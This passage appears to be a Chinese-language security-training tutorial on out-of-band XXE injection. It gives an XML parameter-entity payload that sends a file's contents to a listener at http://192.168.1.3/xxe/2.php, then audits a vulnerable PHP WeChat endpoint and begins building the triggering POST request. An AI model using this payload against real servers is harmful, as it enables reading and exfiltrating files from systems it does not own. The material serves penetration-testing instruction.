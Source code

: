 ```php
1.xml  // 使用 system 导入的外部 xml 实体
2.php  // 带外数据接收的炮台 (不一定是 php) ， 只要能接受发送过来的数据， 就是 2.php
3.txt  // 带外数据接收者。 这里使用 3.txt 是为了形象的表示数据信息
```

这里只是一句口诀而已。 不要纠结 `php, txt` 的后缀， 只要能满足 **接收(php)，存储(txt)** 的功能就行。


#### 1.xml

将数据发送到炮台

```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.3/xxe/2.php?id=%file;'>"
>
%all;
```

其中 `http://192.168.1.3/xxe/2.php` 就是 `2.php` 带外接受炮台
其中 `id=%file` 就是 `3.txt` ， 带外数据接收者。



## 练习

### 1. 代码审计

通过代码审计， 找到 `weixin/index.php` 文件中， `31 ~ 35` 行代码有利用可能

**32行** 代码，使用 `file_get_contests` 获取了外部数据
**33行** 代码， 使用 `simplexml_load_string` 进行了解析

![](https://nc0.cdn.zkaq.cn/md/8461/0a809d087fd976e0fa5876d593f4d544_18950.png)

```
if ($signature != "" && $echostr == "") {
    $postArr = file_get_contents("php://input");
    $postObj = simplexml_load_string($postArr);
    $ToUserName = $postObj->FromUserName;
    $FromUserName = $postObj->ToUserName;
    $MsgType = $postObj->MsgType;
    $strEvent = $postObj->Event;
    $EventKey = $postObj->EventKey;
```


其中， 根据执行条件 
1. `signature!=""` 不为空
2. `echostr=""` 为空。 注意， **为空和不存在**  在编程语言中的判断中是不一样的。 **为空** 值的是 **变量`存在`**  但 **值** 为空。

因此构造出 POST 请求

```
POST /weixin/index.php?signature=123&echostr= HTTP/1.1
```
